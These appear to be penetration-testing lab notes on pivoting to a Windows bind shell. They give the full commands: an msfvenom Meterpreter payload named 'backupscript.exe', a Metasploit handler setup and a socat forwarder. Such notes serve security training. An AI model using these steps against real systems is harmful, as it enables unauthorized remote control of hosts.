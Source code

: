 In the case of bind shells, the Windows server will start a listener and bind to a particular port. We can create a bind shell payload for Windows and execute it on the Windows host. At the same time, we can create a socat redirector on the Ubuntu server, which will listen for incoming connections from a Metasploit bind handler and forward that to a bind shell payload on a Windows target.
1. Creating the Windows Payload
```
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443
```
2. Transfer backupscript.exe to Ubuntu Pivot Host
3. Transfer backupscript.exe to Windows Host on internal network from Ubuntu Host
4. Start a Metasploit bind handler. This bind handler can be configured to connect to our socat's listener on port 8080 (Ubuntu server)
```
use exploit/multi/handler
```
```
set payload windows/x64/bind_tcp
```
```
set RHOSTS <ubuntuIP>
```
```
set LPORT 8080
```
```
run
```
## Ubuntu Pivot Host
5. Starting Socat Bind Shell Listener
```
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```
6. Execute backupscript.exe on Windows Host
7. Bind Handler connect to Socat Listener
8. Meterpreter shell

